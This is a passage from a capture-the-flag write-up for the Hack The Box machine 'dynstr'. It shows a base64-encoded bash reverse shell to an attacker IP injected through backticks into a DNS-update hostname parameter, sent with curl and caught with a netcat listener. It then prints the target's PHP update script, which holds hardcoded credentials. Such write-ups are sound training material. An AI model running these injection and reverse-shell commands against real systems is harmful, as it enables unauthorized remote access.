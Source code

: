 ## Reverse Shell

Excellent. We've proved we can execute commands on the server and communicate back to Kali. Now it's time for a reverse shell, I just used a classic pentestmonkey one, first bas64 encode:

```text
┌──(root💀kali)-[~/htb/dynstr]
└─# echo 'bash -i >& /dev/tcp/10.10.14.214/4444 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMTQvNDQ0NCAwPiYxCg==
```

Put that encoded string in the same command as before to echo, decode then pass to bash. URL encode it:

```text
┌──(root💀kali)-[~/htb/dynstr]
└─# python3 -c "import urllib.parse; print(urllib.parse.quote('\`echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMTQvNDQ0NCAwPiYxCg==  | base64 -d | bash\`'))"
%60echo%20YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC4yMTQvNDQ0NCAwPiYxCg%3D%3D%20%20%7C%20base64%20-d%20%7C%20bash%60
```

Now use cURL like before to pass to the box, make sure you have a netcat listener waiting to catch the shell:

```text
┌──(root💀kali)-[~/htb/dynstr]
└─# curl "http://dyna.htb/nic/update?myip=10.10.14.214&hostname=%60echo%20YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC4yMTQvNDQ0NCAwPiYxCg%3D%3D%20%20%7C%20base64%20-d%20%7C%20bash%60.no-ip.htb" -H "Authorization: Basic ZHluYWRuczpzbmRhbnlk"
```

Switch over and we've got out initial shell connected:

```text
┌──(root💀kali)-[~]
└─# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.214] from (UNKNOWN) [10.10.10.244] 51504
bash: cannot set terminal process group (795): Inappropriate ioctl for device
bash: no job control in this shell
www-data@dynstr:/var/www/html/nic$ 
```

## Update Script

We are connected as www-data, so first let's see what is in our home folder:

```text
www-data@dynstr:/var/www/html/nic$ ls -ls
0 -rw-r--r-- 1 root root    0 Mar 12  2021 index.html
4 -rw-r--r-- 1 root root 1110 Mar 13  2021 update

www-data@dynstr:/var/www/html/nic$ file update
update: PHP script, ASCII text

www-data@dynstr:/var/www/html/nic$ cat update
<?php
  // Check authentication
  if (!isset($_SERVER['PHP_AUTH_USER']) || !isset($_SERVER['PHP_AUTH_PW']))      { echo "badauth\n"; exit; }
  if ($_SERVER['PHP_AUTH_USER'].":".$_SERVER['PHP_AUTH_PW']!=='dynadns:sndanyd') { echo "badauth\n"; exit; }

  // Set $myip from GET, defaulting to REMOTE_ADDR
  $myip = $_SERVER['REMOTE_ADDR'];
  if ($valid=filter_var($_GET['myip'],FILTER_VALIDATE_IP))                       { $myip = $valid; }
```